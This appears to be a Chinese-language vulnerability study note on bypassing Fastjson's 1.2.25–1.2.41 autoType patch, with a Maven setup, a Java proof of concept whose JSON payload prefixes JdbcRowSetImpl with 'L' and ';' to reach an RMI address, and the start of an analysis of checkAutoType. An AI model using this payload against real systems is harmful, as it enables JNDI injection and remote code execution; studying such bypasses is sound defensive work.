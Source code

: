 # 环境搭建

还是用maven项目一键引入依赖

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.25</version>
</dependency>
```

# 1.2.25-1.2.41补丁绕过

之前说过在1.2.25的版本中把原来的TypeUtils.loadClass替换成了checkAutoType函数

在这个方法里面有一个autoTypeSupport参数默认为false

## 漏洞复现

这里需要开启autoTypeSupport

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Unser {
    public static void main(String[] argv) throws Exception{
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/badNameClass\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

可以看到这里的payload相比于1.2.24的只是在利用类前面多了一个L，结尾多了一个分号

## 漏洞分析

前面的流程和1.2.24是一样的,当autoTypeSupport开启的时候进入checkAutoType方法看看

![image-20220302155326963](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220302155326963.png)

进入else分支里面的if
